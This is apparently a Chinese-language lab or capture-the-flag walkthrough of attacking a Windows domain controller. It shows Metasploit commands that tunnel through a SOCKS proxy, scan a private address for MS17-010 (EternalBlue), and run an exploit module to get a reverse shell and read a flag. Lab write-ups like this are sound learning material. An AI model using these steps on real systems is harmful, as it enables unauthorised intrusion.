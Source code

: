 ```yaml
---
title: "EP-WinServerDC"
date: 2024-11-16
categories: 
  - "engineering-practice"
tags: 
  - "windows"
  - "工程实践"
---
```


## 前言

本文是在8086那篇文章已经搭建好代理的情况下进行的

## 漏洞扫描

利用web01上的fscan对DC主机进行扫描，发现疑似存在MS17-010漏洞

![](./images/image-39.png)

进入MSF，设置全局代理以及反向允许

```
setg Proxies socks5:127.0.0.1:46075
set ReverseAllowProxy true 
```

选取探测模块

```
use auxiliary/scanner/smb/smb_ms17_010
set rhost 172.22.10.11
```

![](./images/image-40.png)

可以看到探测模块显示该靶机好像存在永恒之蓝漏洞

接下来进一步攻击

## MS17-010

```
search ms17-010
use 10
```

注意这里不要选取第0个模块，经过我的尝试使用他会导致靶机直接蓝屏

![](./images/image-41.png)

这里用第10个

![](./images/image-42.png)

配置如图

![](./images/image-43.png)

可以看到反弹成功，不用提权

![](./images/image-44.png)

直接就能读取到Admin目录下的flag

![](./images/image-45.png)
